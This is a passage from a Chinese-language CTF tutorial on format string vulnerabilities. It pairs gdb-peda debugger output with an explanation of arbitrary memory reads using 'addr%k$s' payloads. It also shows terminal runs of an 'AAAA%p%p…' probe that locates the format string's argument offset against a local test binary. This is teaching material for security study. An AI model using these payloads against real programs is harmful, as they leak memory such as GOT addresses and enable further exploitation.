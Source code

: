 ```gdb
   0xf7e4c685 <printf+5>:       add    eax,0x16997b
   0xf7e4c68a <printf+10>:      sub    esp,0xc
   0xf7e4c68d <printf+13>:      mov    eax,DWORD PTR [eax-0x68]
   0xf7e4c693 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd25c --> 0x80484ce (<main+99>:      add    esp,0x10)
0004| 0xffffd260 --> 0xffffd270 --> 0xf7007325
0008| 0xffffd264 --> 0xffffd270 --> 0xf7007325
0012| 0xffffd268 --> 0xf7fe2a70 (add    edi,0x1a590)
0016| 0xffffd26c --> 0xf7ffdc08 --> 0xf7fd7000 (jg     0xf7fd7047)
0020| 0xffffd270 --> 0xf7007325
0024| 0xffffd274 --> 0xffffd39c --> 0xffffd519 ("XDG_SESSION_ID=5")
0028| 0xffffd278 --> 0xe0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0xf7e4c680 in printf () from /lib/i386-linux-gnu/libc.so.6
gdb-peda$ c
Continuing.
%s[Inferior 1 (process 36279) exited normally]
```

可以看出在栈上的第二个变量就是我们的格式化字符串地址`0xffffd270`，同时该地址存储的也确实是是"%s"格式化字符串内容。

那么由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第 k 个参数。那我们就可以通过如下的方式来获取某个指定地址`addr`的内容。

```
addr%k$s
```

这是因为，32 位程序下，地址恰好占用 4 个字节，若输入`%k$s`能使程序打印字符`%k$s`对应 16 进制的地址（0x73243425）中的值（但实际上这个地址是不允许访问的，所以程序会崩溃），那么加上`addr`后，栈上第 k+1 个变量变从`%k$s`变为`addr`。所以`addr%k$s`输入后，程序会打印出`addr`对应地址的值。如果这个`addr`是一个合法的地址，那么程序就会打印出这个地址中的值。用这个方法可以获取 got 表中某些函数的地址。

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

```
[tag]%p%p%p%p%p%p..
```

一般来说，我们会重复某个字符的机器字长来作为 tag，而后面会跟上若干个%p 来输出栈上的内容，如果内容与我们前面的 tag 重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符，同时还是利用之前编译好的程序，如下

```
gong@ubuntu:~/Desktop/ctf/pwn/format-string$ ./leakmemory
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000000.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xffa9e0f00xf7ee5a700xf7f00c080x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70250xffa9e1b40xf7eb90000xf7ded017
```

由 0x41414141 处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第 5 个参数，但是是格式化字符串的第 4 个参数。我们可以来测试一下

```
gong@ubuntu:~/Desktop/ctf/pwn/format-string$ ./leakmemory
%4$s
00000000.22222222.ffffffff.%4$s
Segmentation fault (core dumped)
```
